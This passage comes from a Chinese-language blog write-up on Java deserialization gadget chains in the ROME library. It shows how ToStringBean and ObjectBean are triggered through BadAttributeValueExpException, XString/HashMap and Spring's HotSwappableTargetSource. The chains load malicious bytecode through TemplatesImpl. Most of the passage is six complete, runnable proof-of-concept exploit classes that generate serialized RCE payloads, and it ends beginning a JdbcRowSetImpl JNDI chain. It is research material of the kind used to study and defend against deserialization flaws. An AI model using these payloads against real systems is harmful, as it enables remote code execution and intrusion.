            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
```

这里会调用toString方法，看看valObj方法是否可控

```java
    public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }
```

可控的，那就可以用BadAttributeValueExpException去触发toString

需要注意的是，这里的构造方法会调用一次toString，所以在实例化对象的时候先赋予null值，之后通过反射去修改值

我们看看哪些方法能调用到ToStringBean的toString

## ToStringBean#toString()

最简单的肯定就是这个了，上面也说过

```java
    public String toString() {
        Stack stack = (Stack) PREFIX_TL.get();
        String[] tsInfo = (String[]) ((stack.isEmpty()) ? null : stack.peek());
        String prefix;
        if (tsInfo==null) {
            String className = _obj.getClass().getName();
            prefix = className.substring(className.lastIndexOf(".")+1);
        }
        else {
            prefix = tsInfo[0];
            tsInfo[1] = prefix;
        }
        return toString(prefix);
    }
    private String toString(String prefix) {
        StringBuffer sb = new StringBuffer(128);
        try {
            PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(_beanClass);
            if (pds!=null) {
                for (int i=0;i<pds.length;i++) {
                    String pName = pds[i].getName();
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod!=null &&                             // ensure it has a getter method
                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                        Object value = pReadMethod.invoke(_obj,NO_PARAMS);
                        printProperty(sb,prefix+"."+pName,value);
                    }
                }
            }
        }
        catch (Exception ex) {
            sb.append("\n\nEXCEPTION: Could not complete "+_obj.getClass()+".toString(): "+ex.getMessage()+"\n");
        }
        return sb.toString();
    }
```

## ObjectBean#toString()

还记得前面讲过的吗？ObjectBean里面封装了ToStringBean，并且还有toString可以调用到ToStringBean的toString



那么通过调用ObjectBean的toString也能调用到ToStringBean的toString

## ToStringBean最终链子1

```java
BadAttributeValueExpException#readObject()->
    ToStringBean#toString()->
        ToStringBean#toString()->
            TemplatesImpl#getOutputProperties()->
                CC3恶意加载字节码
```

ToStringBean最终POC1

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class ToStringBeanBadAttributeValueExpExceptionPoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ToStringBeanBadAttributeValueExpExceptionPoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ToStringBeanBadAttributeValueExpExceptionPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



## ObjectBean最终链子2

```java
BadAttributeValueExpException#readObject()->
    ObjectBean#toString()->
        ToStringBean#toString()->
            ToStringBean#toString()->
                TemplatesImpl#getOutputProperties()->
                    CC3恶意加载字节码
```

## ObjectBean最终POC2

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class ObjectBeanBadAttributeValueExpExceptionPoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

//        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        ObjectBean objectBean = new ObjectBean(Templates.class,templates);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",objectBean);

        serialize(badAttributeValueExpException);
        unserialize("ObjectBeanBadAttributeValueExpExceptionPoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ObjectBeanBadAttributeValueExpExceptionPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



# xString链触发toString

这个在fastjson反序列化的时候也说过：https://wanth3f1ag.top/2025/07/07/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BFastjson%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#%E8%A7%A6%E5%8F%91toString-%E6%96%B9%E6%B3%952

触发链子

```java
HashMap#readObject() -> XString#equals() -> 任意调#toString() 
```

## ToStringBean最终POC1

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class ToStringBeanXStringPoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        XString xString = new XString("wanth3f1ag");
        HashMap hashmap1 = new HashMap();
        HashMap hashmap2 = new HashMap();
        // 这里的顺序很重要，不然在调用equals方法时可能调用的是JSONArray.equals(XString)
        hashmap1.put("yy",toStringBean);
        hashmap1.put("zZ",xString);
        hashmap2.put("yy",xString);
        hashmap2.put("zZ",toStringBean);
        HashMap map = makeMap(hashmap1,hashmap2);

        serialize(map);
        unserialize("ToStringBeanXStringPoc.txt");

    }
    //hashmap的put实际上就是，这个具体用法我也不清楚
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ToStringBeanXStringPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```


## ObjectBean最终POC2

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ObjectBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class ObjectBeanXStringPoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ObjectBean objectBean = new ObjectBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        XString xString = new XString("Infernity");
        HashMap hashmap1 = new HashMap();
        HashMap hashmap2 = new HashMap();
        // 这里的顺序很重要，不然在调用equals方法时可能调用的是JSONArray.equals(XString)
        hashmap1.put("yy",objectBean);
        hashmap1.put("zZ",xString);
        hashmap2.put("yy",xString);
        hashmap2.put("zZ",objectBean);
        HashMap map = makeMap(hashmap1,hashmap2);

        serialize(map);
        unserialize("ObjectBeanXStringPoc.txt");

    }
    //hashmap的put实际上就是，这个具体用法我也不清楚
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ObjectBeanXStringPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```


# HotSwappableTargetSource+xString触发toString

这是一条Spring原生的一个触发toString链，HotSwappableTargetSource是spring中的一个类

在pom.xml中导入spring-aop依赖

```xml
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-aop</artifactId>
            <version>5.3.23</version>
        </dependency>
```

HotSwappableTargetSource#equals的触发其实和上面的xString的触发是一样的，也是通过hashMap去触发

## HotSwappableTargetSource#equals

在HotSwappableTargetSource#equals函数中

```java
	@Override
	public boolean equals(Object other) {
		return (this == other || (other instanceof HotSwappableTargetSource &&
				this.target.equals(((HotSwappableTargetSource) other).target)));
	}
```

这里的话其实可以调用xString#equals

看一下构造函数

```java
	public HotSwappableTargetSource(Object initialTarget) {
		Assert.notNull(initialTarget, "Target object must not be null");
		this.target = initialTarget;
	}
```

那么最终的链子就是

```java
HashMap#readObject() -> HotSwappableTargetSource#equals() -> XString#equals() -> 任意调#toString() 
```

需要注意的是这里的哈希比较，关注到HashMap#putVal函数



这里会有hash和key的比较，只需要传入一样的对象就行了

## ToStringBean最终POC1

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class ToStringBeanHotSwappableTargetSourcePoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        XString xString = new XString("wanth3f1ag");
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(xString);
        HashMap hashmap = new HashMap();
        hashmap.put(hotSwappableTargetSource1,hotSwappableTargetSource1);
        hashmap.put(hotSwappableTargetSource2,hotSwappableTargetSource2);

        serialize(hashmap);
        unserialize("ToStringBeanHotSwappableTargetSourcePoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ToStringBeanHotSwappableTargetSourcePoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



## ObjectBean最终POC2

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ObjectBean;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class ObjectBeanHotSwappableTargetSourcePoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ObjectBean objectBean = new ObjectBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        XString xString = new XString("wanth3f1ag");
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(objectBean);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(xString);
        HashMap hashmap = new HashMap();
        hashmap.put(hotSwappableTargetSource1,hotSwappableTargetSource1);
        hashmap.put(hotSwappableTargetSource2,hotSwappableTargetSource2);

        serialize(hashmap);
        unserialize("ObjectBeanHotSwappableTargetSourcePoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ObjectBeanHotSwappableTargetSourcePoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



# JdbcRowSetImpl利用链

由于ROME的ToStringBean#toString方法能调用任意getter方法，在JdbcRowSetImpl中也有一个getter方法能用，但是需要出网利用，不过可以作为绕过TemplatesImpl恶意加载字节码后的一个利用手段

## JdbcRowSetImpl#getDatabaseMetaData()

看到JdbcRowSetImpl#getDatabaseMetaData()方法

```java
    public DatabaseMetaData getDatabaseMetaData() throws SQLException {
        Connection var1 = this.connect();
        return var1.getMetaData();
    }
```

跟进connect方法

```java
    private Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
            } catch (NamingException var3) {
